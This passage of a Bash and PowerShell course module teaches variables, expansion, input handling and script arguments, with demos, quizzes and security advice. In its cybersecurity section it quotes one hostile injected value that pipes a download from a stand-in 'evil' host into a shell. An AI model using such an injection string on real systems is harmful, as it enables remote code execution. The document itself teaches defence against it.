    $zone = $null; $zone ??= 'eu-west-1'; "zone=$zone"            # 7.0+ only
    if (-not $env:API_URL) { throw 'API_URL must be set' }
    ```

    **Expected output (example, PowerShell 7 on Windows):**

    ```text
    30
    access.log.2.gz
    \var\log\nginx
    /var/log/nginx/access.log.2
    /var/log/nginx/error.log.2.gz
    PRODUCTION
    production
    region=ap-south-1
    zone=eu-west-1
    Exception: API_URL must be set
    ```

    `Split-Path -Parent` normalises separators for the current OS, so on Windows it prints backslashes. `??=` (null-coalescing assignment) is PowerShell **7.0+**; in 5.1 use the `if` form.

### Demo 3 — Command substitution and arithmetic

=== "Bash"

    ```bash
    today=$(date -u +%F)
    files=$(ls /etc | wc -l)
    echo "today=$today etc_entries=$files"
    echo $(( 7 / 2 )) $(( 7 % 2 )) $(( 2 ** 10 ))
    used=850; total=1000
    echo "pct=$(( used * 100 / total ))"
    n=08
    echo $(( n + 1 ))
    echo $(( 10#$n + 1 ))
    awk -v u=850 -v t=1024 'BEGIN { printf "%.1f\n", u*100/t }'
    ```

    **Expected output (captured):**

    ```text
    today=2026-11-17 etc_entries=155
    3 1 1024
    pct=85
    bash: 08: value too great for base (error token is "08")
    9
    83.0
    ```

=== "PowerShell"

    ```powershell
    $today = (Get-Date).ToUniversalTime().ToString('yyyy-MM-dd')
    $files = (Get-ChildItem -Path C:\Windows -File).Count
    "today=$today windows_files=$files"
    7 / 2; 7 % 2; [math]::Pow(2, 10)
    [math]::Floor(7 / 2), [int](7 / 2)
    $used = 850; $total = 1024
    '{0:N1}' -f ($used * 100 / $total)
    [int]'08' + 1
    ```

    **Expected output (example):**

    ```text
    today=2026-11-17 windows_files=41
    3.5
    1
    1024
    3
    4
    83.0
    9
    ```

    PowerShell division returns a `[double]` when needed, so `7 / 2` is `3.5`, and `[int]3.5` rounds to `4` (ties to even). Leading zeros are not octal in PowerShell.

### Demo 4 — Scope, export and the pipeline trap

=== "Bash"

    ```bash
    LOG_LEVEL=debug
    bash -c 'echo "child sees LOG_LEVEL=[${LOG_LEVEL-}]"'
    export LOG_LEVEL
    bash -c 'echo "child sees LOG_LEVEL=[${LOG_LEVEL-}]"'
    TZ=UTC date +%Z
    echo "TZ in this shell: [${TZ-}]"
    counter=1
    ( counter=99; echo "subshell counter=$counter" )
    echo "parent counter=$counter"
    echo "x y z" | read -r first rest
    echo "after pipe: first=[${first-}]"
    read -r first rest <<< "x y z"
    echo "here-string: first=[$first] rest=[$rest]"
    declare -p LOG_LEVEL counter
    ```

    **Expected output (captured):**

    ```text
    child sees LOG_LEVEL=[]
    child sees LOG_LEVEL=[debug]
    UTC
    TZ in this shell: []
    subshell counter=99
    parent counter=1
    after pipe: first=[]
    here-string: first=[x] rest=[y z]
    declare -x LOG_LEVEL="debug"
    declare -- counter="1"
    ```

=== "PowerShell"

    ```powershell
    $LogLevel = 'debug'
    pwsh -NoProfile -Command { "child sees LogLevel=[$LogLevel] env=[$env:LOG_LEVEL]" }
    $env:LOG_LEVEL = 'debug'
    pwsh -NoProfile -Command { "child sees env=[$env:LOG_LEVEL]" }
    $counter = 1
    & { $counter = 99; "script block counter=$counter" }
    "parent counter=$counter"
    & { $script:counter = 5 }        # in a script file this changes the script-scope variable
    Get-Variable -Name counter | Select-Object Name, Value, Options
    ```

    **Expected output (example, run inside a script file):**

    ```text
    child sees LogLevel=[] env=[]
    child sees env=[debug]
    script block counter=99
    parent counter=1
    Name    Value Options
    ----    ----- -------
    counter     5    None
    ```

    Passing a script block to `-Command` works when `pwsh` (or `powershell.exe` in 5.1) is started **from PowerShell**; the block runs in the child, so `$LogLevel` and `$env:LOG_LEVEL` are evaluated there. A child process sees only the environment (`$env:`), never the parent's PowerShell variables.

### Demo 5 — Reading input safely

=== "Bash"

    ```bash
    printf 'web-01\n' | { read -r -p "Hostname: " host; echo "got host=[$host]"; }
    line='  C:\Temp\new  folder  '
    printf '%s\n' "$line" | { read -r a;      echo "trimmed -r: [$a]"; }
    printf '%s\n' "$line" | { read a;         echo "no -r: [$a]"; }
    printf '%s\n' "$line" | { IFS= read -r a; echo "IFS= -r: [$a]"; }
    IFS=: read -r user _ uid gid _ home shell < <(getent passwd root)
    echo "user=$user uid=$uid home=$home shell=$shell"
    read -r -a ports <<< "22 80 443"
    echo "count=${#ports[@]} first=${ports[0]} all=${ports[*]}"
    read -r -t 1 answer < <(sleep 3); echo "timeout exit=$?"
    ```

    **Expected output (captured):**

    ```text
    got host=[web-01]
    trimmed -r: [C:\Temp\new  folder]
    no -r: [C:Tempnew  folder]
    IFS= -r: [  C:\Temp\new  folder  ]
    user=root uid=0 home=/root shell=/bin/bash
    count=3 first=22 all=22 80 443
    timeout exit=142
    ```

    The prompt `Hostname:` was not shown because input came from a pipe, not a terminal. `142` = 128 + 14 (SIGALRM), the timeout signal. In a terminal, `read -r -s -p "Password: " pw; echo` reads a password without echoing it; the extra `echo` moves to a new line.

=== "PowerShell"

    ```powershell
    $hostName = Read-Host -Prompt 'Hostname'
    $portText = Read-Host -Prompt 'Port'
    $port = 0
    if ([int]::TryParse($portText, [ref]$port) -and $port -ge 1 -and $port -le 65535) {
        "valid port $port ($($port.GetType().Name))"
    } else {
        Write-Warning "'$portText' is not a port number"
    }
    $secret = Read-Host -Prompt 'API token' -AsSecureString
    $secret.GetType().FullName
    $user, $null, $uid = 'root:x:0:0:root:/root:/bin/bash'.Split(':')
    "user=$user uid=$uid"
    ```

    **Expected output (example; the user typed `web-01`, `8443` and a token):**

    ```text
    Hostname: web-01
    Port: 8443
    valid port 8443 (Int32)
    API token: ********
    System.Security.SecureString
    user=root uid=0
    ```

    Multiple assignment (`$a, $b, $c = ...`) splits an array across variables; `$null` discards a value, like `_` in Bash.

### Demo 6 — Types, constants and arrays

=== "Bash"

    ```bash
    declare -i n=5
    n+=10; echo "n=$n"
    n="abc"; echo "n after abc=$n"
    declare -r MAX_RETRIES=3
    MAX_RETRIES=5
    echo "still $MAX_RETRIES"
    declare -l lower="WEB-01.Corp.Example"; echo "$lower"
    servers=(web-01 web-02 "db 01")
    servers+=(cache-01)
    echo "count=${#servers[@]} second=${servers[1]} last=${servers[-1]}"
    printf '[%s]\n' "${servers[@]}"
    declare -A owner=([web-01]=alice [db-01]=bob)
    owner[cache-01]=carol
    for k in "${!owner[@]}"; do printf '%-9s %s\n' "$k" "${owner[$k]}"; done | sort
    printf '%-10s|%5d|%6.2f%%\n' "disk" 42 85.123
    ```

    **Expected output (captured):**

    ```text
    n=15
    n after abc=0
    bash: MAX_RETRIES: readonly variable
    still 3
    web-01.corp.example
    count=4 second=web-02 last=cache-01
    [web-01]
    [web-02]
    [db 01]
    [cache-01]
    cache-01  carol
    db-01     bob
    web-01    alice
    disk      |   42| 85.12%
    ```

    `n="abc"` silently became `0` because `abc` is evaluated as an (unset) arithmetic variable — `declare -i` is not validation.

=== "PowerShell"

    ```powershell
    [int]$n = 5
    $n += 10; "n=$n"
    try { $n = 'abc' } catch { "rejected: $($_.Exception.Message)" }
    New-Variable -Name MaxRetries -Value 3 -Option ReadOnly
    try { $MaxRetries = 5 } catch { "rejected: $($_.Exception.Message)" }
    $servers = @('web-01', 'web-02', 'db 01')
    $servers += 'cache-01'
    "count=$($servers.Count) second=$($servers[1]) last=$($servers[-1])"
    $owner = @{ 'web-01' = 'alice'; 'db-01' = 'bob' }
    $owner['cache-01'] = 'carol'
    $owner.GetEnumerator() | Sort-Object Name | ForEach-Object { '{0,-9} {1}' -f $_.Name, $_.Value }
    '{0,-10}|{1,5}|{2,6:N2}%' -f 'disk', 42, 85.123
    ```

    **Expected output (example):**

    ```text
    n=15
    rejected: Cannot convert value "abc" to type "System.Int32". Error: "Input string was not in a correct format."
    rejected: Cannot overwrite variable MaxRetries because it is read-only or constant.
    count=4 second=web-02 last=cache-01
    cache-01  carol
    db-01     bob
    web-01    alice
    disk      |   42| 85.12%
    ```

    The exact wording of conversion errors differs between 5.1 and 7 (.NET versions). Unlike `declare -i`, a PowerShell `[int]` constraint **rejects** bad input. `$servers += 'x'` creates a new array each time — fine for small lists; use `[System.Collections.Generic.List[string]]` for thousands of items.

### Demo 7 — Script arguments

=== "Bash"

    ```bash
    cat > check-args.sh <<'EOF'
    #!/usr/bin/env bash
    echo "script : $0"
    echo "count  : $#"
    echo "first  : ${1-<none>}"
    echo "all    : $*"
    i=0
    for a in "$@"; do i=$((i+1)); echo "  arg $i = [$a]"; done
    shift
    echo "after shift: $# left, first is now [${1-}]"
    EOF
    chmod +x check-args.sh
    ./check-args.sh web-01 "change window" 443
    ```

    **Expected output (captured):**

    ```text
    script : ./check-args.sh
    count  : 3
    first  : web-01
    all    : web-01 change window 443
      arg 1 = [web-01]
      arg 2 = [change window]
      arg 3 = [443]
    after shift: 2 left, first is now [change window]
    ```

    The quoted argument `"change window"` stayed **one** argument because the loop used `"$@"`.

=== "PowerShell"

    ```powershell
    Set-Content -Path .\Check-Args.ps1 -Value @'
    [CmdletBinding()]
    param(
        [Parameter(Mandatory)][ValidatePattern('^[A-Za-z0-9-]{1,63}$')][string]$ComputerName,
        [string]$Window = 'not set',
        [ValidateRange(1, 65535)][int]$Port = 443
    )
    Set-StrictMode -Version Latest
    "script : $PSCommandPath"
    "bound  : $($PSBoundParameters.Keys -join ', ')"
    "values : $ComputerName | $Window | $Port"
    '@
    .\Check-Args.ps1 -ComputerName web-01 -Window 'change window'
    .\Check-Args.ps1 -ComputerName 'web 01'
    .\Check-Args.ps1 -ComputerName web-01 -Port 70000
    ```

    **Expected output (example):**

    ```text
    script : C:\Users\student\lab21\Check-Args.ps1
    bound  : ComputerName, Window
    values : web-01 | change window | 443
    Check-Args.ps1: Cannot validate argument on parameter 'ComputerName'. The argument "web 01" does not match the "^[A-Za-z0-9-]{1,63}$" pattern. ...
    Check-Args.ps1: Cannot validate argument on parameter 'Port'. The 70000 argument is greater than the maximum allowed range of 65535. ...
    ```

    `$Port` was not in `$PSBoundParameters` because the default was used. Validation failed **before** any line of the script body ran.

### Demo 8 — Fail fast on undefined variables

=== "Bash"

    ```bash
    bash -c 'set -o nounset; echo "start"; echo "value: $UNDEFINED_VAR"; echo "never"'
    echo "exit=$?"
    f="Q4 report.txt"; touch "$f" keep.txt
    ls $f
    ls "$f"
    pattern="*.txt"; echo $pattern; echo "$pattern"
    ```

    **Expected output (captured):**

    ```text
    start
    bash: line 1: UNDEFINED_VAR: unbound variable
    exit=127
    ls: cannot access 'Q4': No such file or directory
    ls: cannot access 'report.txt': No such file or directory
    Q4 report.txt
    Q4 report.txt keep.txt
    *.txt
    ```

    The unquoted `$f` was split into two arguments; the unquoted `$pattern` was expanded as a wildcard. With `rm` instead of `ls`, either could delete the wrong files.

=== "PowerShell"

    ```powershell
    & { $total = 10; "total is $totl" }
    & { Set-StrictMode -Version Latest; $total = 10; "total is $totl" }
    $f = 'Q4 report.txt'; New-Item -Path $f -ItemType File -Force | Out-Null
    Get-Item $f | Select-Object -ExpandProperty Name
    ```

    **Expected output (example):**

    ```text
    total is
    InvalidOperation: The variable '$totl' cannot be retrieved because it has not been set.
    Q4 report.txt
    ```

    The typo `$totl` silently printed nothing until strict mode was on. PowerShell passes `$f` as one argument even without quotes.

## Linux vs PowerShell Comparison

| Task | Bash | PowerShell | Notes |
|---|---|---|---|
| Assign | `name=web-01` | `$name = 'web-01'` | No spaces in Bash |
| Read | `"$name"`, `"${name}"` | `$name`, `"$name"` | Always quote in Bash |
| Typed variable | `declare -i n=5` (no validation) | `[int]$n = 5` (validates) | |
| Constant | `readonly MAX=3` | `New-Variable MAX 3 -Option ReadOnly/Constant` | |
| Delete | `unset name` | `Remove-Variable name` | |
| List variables | `declare -p`, `set` | `Get-Variable`, `Get-ChildItem Variable:` | |
| Default if empty | `${v:-def}` | `if (-not $v) { $v = 'def' }` · `$v ?? 'def'` (7.0+) | `??` tests only `$null` |
| Required value | `: "${v:?msg}"` | `[Parameter(Mandatory)]` · `if (-not $v) { throw 'msg' }` | |
| Length | `${#v}` | `$v.Length` | |
| Basename / dirname | `${p##*/}` / `${p%/*}` | `Split-Path -Leaf` / `-Parent` | |
| Replace | `${v//old/new}` | `$v.Replace('old','new')` · `$v -replace 'regex','new'` | `-replace` uses regex |
| Upper / lower | `${v^^}` / `${v,,}` | `$v.ToUpper()` / `.ToLower()` | |
| Command output into variable | `x=$(cmd)` | `$x = cmd` | PS keeps objects |
| Integer maths | `$(( a * b ))` | `$a * $b` | PS does decimals too |
| Decimal maths | <code>awk 'BEGIN{print 7/2}'</code> | `7 / 2` | |
| Format | `printf '%-10s %5.1f' a 3.14` | `'{0,-10} {1,5:N1}' -f 'a', 3.14` | |
| Environment variable | `export X=1`; `"$X"` | `$env:X = '1'`; `$env:X` | |
| One-command env | `TZ=UTC date` | (none; set `$env:` then restore) | |
| Persistent env | `~/.profile`, `/etc/environment` | `[Environment]::SetEnvironmentVariable(..., 'User')` (Windows) | |
| Arguments | `$1`, `$#`, `"$@"`, `shift` | `param()`, `$args`, `$PSBoundParameters` | |
| Prompt | `read -r -p 'Host: ' h` | `$h = Read-Host 'Host'` | |
| Secret prompt | `read -r -s -p 'Pass: ' p` | `Read-Host -AsSecureString` · `Get-Credential` | |
| Array | `a=(x y z)`; `"${a[@]}"` | `$a = @('x','y','z')`; `$a` | |
| Key/value map | `declare -A m=([k]=v)` | `$m = @{ k = 'v' }` | |
| Load settings into current shell | `source file.env` | `. .\settings.ps1` · `Import-PowerShellDataFile` | |
| Fail on undefined | `set -o nounset` | `Set-StrictMode -Version Latest` | |
| Case sensitivity of names | Sensitive | Insensitive (env vars sensitive on Linux) | |

## Real-World IT Scenarios

1. **The space in the path.** A nightly backup script did `tar czf /backup/$name.tgz $dir`. It worked for months until someone created `/srv/Shared Docs`. The unquoted `$dir` split into `/srv/Shared` and `Docs`; `tar` archived the wrong things and the job reported success. Quoting `"$dir"` and adding `set -o nounset` fixed it permanently.
2. **The empty variable that deleted everything.** A clean-up line read `rm -rf "$STAGING/"*`. On a new server `STAGING` was not exported in the cron environment, so the command became `rm -rf /*`. The safe form is `rm -rf -- "${STAGING:?STAGING not set}/"*`, which refuses to run when the variable is empty (Day 02).
3. **Service works in the terminal, fails under systemd.** An application read `DB_HOST` from the environment. The administrator had added it to `~/.bashrc`, which interactive shells read but **systemd services do not**. The fix was an `Environment=` or `EnvironmentFile=` line in the unit file and `systemctl daemon-reload`.
4. **Help-desk intake script.** Technicians ran a PowerShell script that asked for a ticket number with `Read-Host` and used it in file names. Someone typed `INC-1234 / urgent`, and the `/` created a sub-folder. Replacing `Read-Host` with a `param()` block using `[ValidatePattern('^INC-\d{4,8}$')]` stopped bad input at the door and made the script usable from Task Scheduler.
5. **Change window by time zone.** A deployment script compared `$(date +%H)` with `22` to decide whether it was inside the change window. On a server set to UTC it ran five and a half hours early. Using `TZ=Asia/Kolkata date +%H` (or storing times in UTC and converting explicitly with `[datetime]::UtcNow` in PowerShell) made the intent unambiguous.

## Cybersecurity Application

- **Secrets in the environment leak.** Exported variables are visible to every child process and, on Linux, in `/proc/PID/environ` to the same user and root. They end up in crash dumps, CI logs and `env` output pasted into tickets. Prefer secret stores, files with mode `600`, or systemd credentials over `export DB_PASSWORD=...`.
- **Secrets on the command line leak even more.** `mysql -pS3cret` or `.\Deploy.ps1 -Password S3cret` puts the password into shell history, `ps` output (visible to **all** local users on Linux) and Windows process-creation event 4688 with command-line logging. Prompt with `read -s`, `Read-Host -AsSecureString` or `Get-Credential` instead, or read from a protected file.
- **Command injection through unvalidated input.** Never build commands with `eval "$input"` or `Invoke-Expression $input`. An input such as `web-01; curl http://evil/x | sh` becomes code. Pass values as **quoted arguments** (`ping -c 1 -- "$host"`) and validate them with a pattern first (`[[ $host =~ ^[A-Za-z0-9.-]+$ ]]`, `[ValidatePattern()]`).
- **PATH hijacking.** If a script runs as root with an inherited `PATH` that contains a user-writable directory first, an attacker can plant a fake `ls` or `tar`. Privileged scripts should set `PATH=/usr/sbin:/usr/bin:/sbin:/bin` explicitly or call programs by absolute path; `sudo` resets `PATH` to `secure_path` for this reason (Day 19).
- **Hunting with variables.** Attackers abuse environment variables too: `LD_PRELOAD` to inject a library into every program (Linux), and obfuscated PowerShell such as `$e = 'Invoke-Ex' + 'pression'`. Script-block logging (event 4104, Day 19) records the de-obfuscated code; on Linux, `cat /proc/PID/environ | tr '\0' '\n'` (as root) reveals unexpected `LD_PRELOAD` values.
- **History hygiene.** A leading space keeps a Bash command out of history only when `HISTCONTROL` contains `ignorespace` (Ubuntu's default is `ignoreboth`). PSReadLine saves history to a file and skips lines that look like they contain secrets (`password`, `token`, `apikey` and similar) — still, prompting is safer than relying on filters.

## Network Analyst Application

- Store the targets of a check in variables and arrays so one script tests many endpoints: `targets=(10.0.0.1 10.0.0.53 192.0.2.10)` / `$targets = '10.0.0.1','10.0.0.53'`, then loop over them (Day 22).
- Validate addresses before using them: `[ipaddress]$ip = $text` in PowerShell, or a regular expression and `ipcalc`/`getent ahosts` checks in Bash. A typo such as `10.0.0.300` should stop the script, not produce a confusing timeout.
- Use parameter expansion to split `host:port` strings without extra processes: `host=${target%:*}; port=${target##*:}`.
- Proxy settings are environment variables: `http_proxy`, `https_proxy` and `no_proxy` (lower case is the most widely honoured on Linux; many tools also read upper case). "curl works in my shell but not in cron" is often a missing proxy variable.
- Capture timestamps once at the start (`start=$(date -u +%FT%TZ)`, `$start = [datetime]::UtcNow`) so every line of a network report uses the same reference time when you correlate with captures and firewall logs.

## System Administrator Application

- **Configuration at the top.** Put every tunable value in clearly named variables (or a `param()` block) at the top of a script — thresholds, paths, retention days — so the next administrator changes configuration, not logic.
- **Defaults plus overrides.** `retention_days=${RETENTION_DAYS:-14}` lets an operator override a value through the environment (or a systemd `Environment=` line) without editing the script; `param([int]$RetentionDays = 14)` does the same in PowerShell.
- **Non-interactive first.** Scheduled tasks, cron jobs and CI pipelines have no keyboard. Every prompt needs an argument or environment equivalent, and the script should fail clearly (`${var:?}`, `Mandatory` in `-NonInteractive`) rather than hang.
- **Safe header.** Begin Bash scripts with `#!/usr/bin/env bash` and `set -o nounset -o pipefail` (the course's scripts add `errexit` selectively), and PowerShell scripts with `[CmdletBinding()]`, `param()` and `Set-StrictMode -Version Latest`.
- **Persisting environment variables properly.** Use `/etc/environment` or a drop-in in `/etc/profile.d/` for login shells, unit-file `Environment=` for services, and `[Environment]::SetEnvironmentVariable(..., 'Machine')` (elevated) or Group Policy Preferences on Windows. Document where each value comes from.

## Common Mistakes

| Mistake | What happens | Correct approach |
|---|---|---|
| `name = value` in Bash | `name: command not found` | `name=value` with no spaces |
| `$name=value` in Bash | Tries to run the *value* of `name` followed by `=value` | Assign without `$`: `name=value` |
| Unquoted `$var` in Bash | Word splitting and globbing break paths with spaces or `*` | `"$var"` (and `"$@"`) |
| `"$name_backup"` meaning `$name` + `_backup` | Reads an unset variable `name_backup` | `"${name}_backup"` |
| `read` without `-r` | Backslashes vanish (`C:\Temp` → `C:Temp`) | `read -r`, or `IFS= read -r` to keep spaces |
| <code>cmd &#124; read var</code> | `var` is empty afterwards (subshell) | `read var <<< "$(cmd)"` or `read var < <(cmd)` |
| Expecting a script to change the caller's variables | Child process changes vanish | `source script` / dot-source `. .\script.ps1` |
| `$(( 08 + 1 ))` | *value too great for base* | `$(( 10#08 + 1 ))` |
| Using `$(( ))` for percentages with decimals | Integer truncation | `awk` in Bash; PowerShell `[double]` and `-f` |
| `'5' + 5` in PowerShell expecting 10 | `55` (string concatenation) | Cast first: `[int]'5' + 5` |
| `"$obj.Name"` in a PowerShell string | Prints the object followed by `.Name` | `"$($obj.Name)"` |
| `$env:path` on Linux PowerShell | Empty (names are case-sensitive) | `$env:PATH` |
| Using `Write-Host` to return data | Callers cannot capture or pipe it | `Write-Output` or just emit the value |
| `Read-Host` in a scheduled task | Fails in `-NonInteractive` or hangs | `param()` with defaults and `Mandatory` |
| Password as an argument | Visible in history, `ps` and logs | `read -s`, `Read-Host -AsSecureString`, `Get-Credential`, a secret store |

## Troubleshooting Guide

| Symptom | Likely cause | Fix |
|---|---|---|
| `bash: name: command not found` on an assignment line | Spaces around `=` | Remove the spaces |
| Variable is empty in the script but set in your terminal | Not exported, or set in `~/.bashrc` while running from cron/systemd | `export VAR`; set it in the unit file/crontab; `printenv VAR` to check |
| `unbound variable` error | `set -o nounset` and the variable was never set | Give a default `${VAR:-}` or set it; check spelling |
| `ls: cannot access 'Q4': No such file or directory` | Unquoted variable containing spaces | Quote it: `"$f"` |
| `bad substitution` | Using Bash syntax (`${v^^}`, arrays) under `sh`/`dash`, e.g. `sh script.sh` | Run with `bash`, check the shebang `#!/usr/bin/env bash` |
| `$'\r': command not found` or values with a stray `\r` | Script or input file saved with Windows CRLF line endings | `sed -i 's/\r$//' file` or save as LF; `cat -A` shows `^M` |
| `read` returns immediately with nothing | Standard input is not a terminal (cron, pipe, `< /dev/null`) | Supply arguments; check `[[ -t 0 ]]` before prompting |
| `Cannot convert value "x" to type "System.Int32"` | Type-constrained variable received bad input | Validate with `[int]::TryParse()` or a `param()` attribute and show a friendly message |
| `The variable '$x' cannot be retrieved because it has not been set` | `Set-StrictMode` caught an undefined variable or typo | Initialise the variable or fix the spelling |
| `Read and Prompt functionality is not available` | `Read-Host`/`Mandatory` prompt in a `-NonInteractive` session | Pass the parameter explicitly |
| Persistent environment variable not visible | Process started before the change | Open a new terminal (or sign out/in); for services, restart the service |
| `Cannot overwrite variable X because it is read-only or constant` | `ReadOnly`/`Constant` option or automatic variable (`$Host`, `$PID`, `$HOME`) | Use a different name; avoid automatic variable names such as `$host`, `$input`, `$args`, `$_` |

## Hands-on Lab

Complete **[Lab 21: Change Ticket Intake](../../labs/lab-21.md)**. You will build a small, safe intake script in both shells that collects the details of a change request — ticket ID, target host, change window and engineer — from **arguments, environment variables or prompts**, validates each value, never echoes the approver's PIN, and writes a ticket summary file into the lab folder.

Summary of tasks:

1. Explore quoting, word splitting and parameter expansion with a deliberately awkward file name.
2. Accept input from arguments with defaults and required values.
3. Fall back to interactive prompts only when no argument was supplied and a terminal is present.
4. Validate the ticket ID, host name and change window with patterns and ranges.
5. Read a secret without echoing it and prove it never reaches the output file.
6. Load site defaults from a settings file (`source` / dot-source) and override one value from the environment.

## Practice Questions

1. Why does `count = 5` fail in Bash, and what is the correct form?
2. What is the difference between `'$HOME'` and `"$HOME"` in Bash and in PowerShell?
3. Given `f="/srv/backup/db-2026-11-17.sql.gz"`, write Bash expansions that print the file name only, the directory only, and the name without `.gz`.
4. Explain the difference between `${v:-x}` and `${v:=x}`.
5. Write a Bash line that stops the script with the message `TARGET is required` when `TARGET` is unset or empty.
6. Why is `echo "web-01" | read host; echo "$host"` empty, and how do you fix it?
7. What does `export` do, and why can a child script never change its parent's variables?
8. Why should you almost always use `read -r`?
9. What do `$#`, `"$@"` and `shift` do?
10. In PowerShell, what are the results of `'7' + 3` and `7 + '3'`, and why?
11. How do you print the `Year` property of a `$date` variable inside a double-quoted PowerShell string?
12. What is the difference between `Read-Host -AsSecureString` and `Read-Host -MaskInput`?
13. Name two advantages of a `param()` block over `$args`.
14. Which PowerShell setting is equivalent to Bash `set -o nounset`?
15. Why should you never pass a password as a command-line argument?

??? success "Practice answers"
    1. Bash sees `count` as a command name with arguments `=` and `5`. Write `count=5` with no spaces.
    2. Single quotes are literal in both shells: `'$HOME'` prints `$HOME`. Double quotes expand the variable in both: `/home/student` or `C:\Users\student`.
    3. `"${f##*/}"` → `db-2026-11-17.sql.gz`; `"${f%/*}"` → `/srv/backup`; `"${f%.gz}"` → `/srv/backup/db-2026-11-17.sql`.
    4. Both use `x` when `v` is unset or empty. `${v:-x}` leaves `v` unchanged; `${v:=x}` also **assigns** `x` to `v`.
    5. `: "${TARGET:?TARGET is required}"`
    6. Each part of a pipeline runs in a subshell, so `read` sets `host` in a subshell that exits. Use `read -r host <<< "web-01"` or `read -r host < <(command)`.
    7. It marks a variable to be copied into the environment of child processes. Children receive a **copy**; there is no mechanism for a child process to write into its parent's memory. Use `source` to run code in the current shell.
    8. Without `-r`, backslashes are treated as escape characters and removed, corrupting Windows paths, regular expressions and any text containing `\`.
    9. `$#` is the number of arguments; `"$@"` expands to all arguments as separate, correctly quoted words; `shift` discards `$1` and moves the remaining arguments down.
    10. `'7' + 3` is `'73'` (left operand is a string → concatenation); `7 + '3'` is `10` (left operand is a number → the string is converted).
    11. `"Year: $($date.Year)"` — a subexpression. `"$date.Year"` would print the whole date followed by `.Year`.
    12. `-AsSecureString` returns a `SecureString` object (5.1 and 7). `-MaskInput` (7.1+) only hides the typing and returns a plain `[string]`.
    13. Any two of: named parameters; types and conversion; validation attributes (`ValidateSet`, `ValidateRange`, `ValidatePattern`); mandatory prompting; default values; tab completion; automatic help with `Get-Help`.
    14. `Set-StrictMode -Version Latest` (it also catches non-existent properties).
    15. Command lines are visible in shell history, in process listings (`ps` shows them to all local users on Linux), in Windows process-creation logs (event 4688 with command-line auditing) and in CI logs.

## Quiz

**Q1.** `dir="/srv/Shared Docs"; ls $dir` — what does `ls` receive?

- A. One argument, `/srv/Shared Docs`
- B. Two arguments, `/srv/Shared` and `Docs`
- C. Nothing; `$dir` is not expanded
- D. A syntax error

??? question "Answer and explanation"
    **B.** The unquoted expansion is split on whitespace (word splitting). `ls "$dir"` passes one argument.

**Q2.** Which expansion prints `report` from `f=report.tar.gz`?

- A. `${f%.*}`
- B. `${f%%.*}`
- C. `${f#*.}`
- D. `${f##*.}`

??? question "Answer and explanation"
    **B.** `%%.*` removes the **longest** suffix matching `.*`, i.e. `.tar.gz`. `${f%.*}` gives `report.tar`; `${f#*.}` gives `tar.gz`; `${f##*.}` gives `gz`.

**Q3.** A Bash script sets `MODE=test` (no `export`) and then runs `./child.sh`, which prints `$MODE`. What is printed?

- A. `test`
- B. An empty line
- C. `MODE`
- D. An error

??? question "Answer and explanation"
    **B.** Only exported variables are copied into a child process's environment. `export MODE=test` (or `MODE=test ./child.sh`) would pass it.

**Q4.** In PowerShell, `[int]$port = 443; $port = '8080x'` results in:

- A. `$port` becomes the string `'8080x'`
- B. `$port` becomes `8080`
- C. An error; `$port` keeps `443`
- D. `$port` becomes `$null`

??? question "Answer and explanation"
    **C.** A type-constrained variable must always hold its type. `'8080x'` cannot be converted to `Int32`, so the assignment throws and the old value remains.

**Q5.** Which is the safest way to obtain an administrator password inside an interactive PowerShell script?

- A. `param([string]$Password)`
- B. `$p = Read-Host 'Password'`
- C. `$cred = Get-Credential`
- D. `$env:PASSWORD`

??? question "Answer and explanation"
    **C.** `Get-Credential` returns a `PSCredential` with a `SecureString` password that can be passed directly to `-Credential` parameters. A plain string parameter or `Read-Host` without `-AsSecureString` exposes the password; environment variables leak to child processes. (For unattended use, a secret store is better still.)

**Q6.** What does `read -r -t 5 -p "Continue? " ans` return if nobody types anything?

- A. 0, with `ans` empty
- B. A status greater than 128 after 5 seconds
- C. It waits forever
- D. 1 immediately

??? question "Answer and explanation"
    **B.** `-t 5` sets a timeout; when it expires `read` fails with a status greater than 128 (142 in Demo 5). Check it with `if ! read ...; then` to apply a default.

**Q7.** Which PowerShell scope modifier lets a function in a script update a counter that other functions in the same script read?

- A. `$local:`
- B. `$private:`
- C. `$script:`
- D. `$using:`

??? question "Answer and explanation"
    **C.** `$script:counter` refers to the script-level variable shared by all its functions. `$global:` would also work but pollutes the user's session; `$using:` is for remote sessions, jobs and parallel blocks.

**Q8.** `echo $(( 09 + 1 ))` in Bash prints:

- A. `10`
- B. `091`
- C. An error: value too great for base
- D. `9`

??? question "Answer and explanation"
    **C.** A leading zero means octal, and `9` is not an octal digit. Use `$(( 10#09 + 1 ))`.

## Homework

1. **Parameter expansion drill.** Without using `basename`, `dirname`, `sed` or `cut`, write a Bash script that takes a full path as `$1` and prints its directory, file name, extension, and the name with the extension changed to `.bak`. Write the PowerShell equivalent using `Split-Path`, `[System.IO.Path]` methods and `-replace`.
2. **Environment audit.** List every environment variable in your Bash session and in PowerShell. Identify five that are set by the system, find where each comes from on Ubuntu (`/etc/environment`, `~/.profile`, PAM, systemd) and on Windows (System Properties → Environment Variables, `[Environment]::GetEnvironmentVariables('Machine')`).
3. **Input validation table.** For each input type — host name, IPv4 address, port, ticket ID (`INC-` + 4–8 digits), yes/no answer — write a Bash test (`[[ =~ ]]` or arithmetic) and a PowerShell validation attribute or `TryParse` call that accepts valid and rejects invalid values. Test each with at least two good and two bad values.
4. **Secret handling note (150 words).** Explain to a junior colleague why `export DB_PASSWORD=...` in `~/.bashrc` and `-Password` string parameters are dangerous, and what to use instead.

??? success "Homework answer key (items 1 and 3)"
    **Item 1 — Bash**

    ```bash
    #!/usr/bin/env bash
    set -o nounset
    p="${1:?usage: $0 PATH}"
    file="${p##*/}"
    echo "dir : ${p%/*}"
    echo "file: $file"
    echo "ext : ${file##*.}"
    echo "bak : ${p%.*}.bak"
    ```

    **Item 1 — PowerShell**

    ```powershell
    param([Parameter(Mandatory)][string]$Path)
    "dir : $(Split-Path -Path $Path -Parent)"
    "file: $(Split-Path -Path $Path -Leaf)"
    "ext : $([System.IO.Path]::GetExtension($Path))"
    "bak : $([System.IO.Path]::ChangeExtension($Path, '.bak'))"
    ```

    (A name with no extension, such as `README`, is an edge case worth testing: `${file##*.}` returns the whole name.)

    **Item 3 — example tests**

    | Input | Bash | PowerShell |
    |---|---|---|
    | Host name | `[[ $h =~ ^[A-Za-z0-9]([A-Za-z0-9-]{0,61}[A-Za-z0-9])?$ ]]` | `[ValidatePattern('^[A-Za-z0-9]([A-Za-z0-9-]{0,61}[A-Za-z0-9])?$')]` |
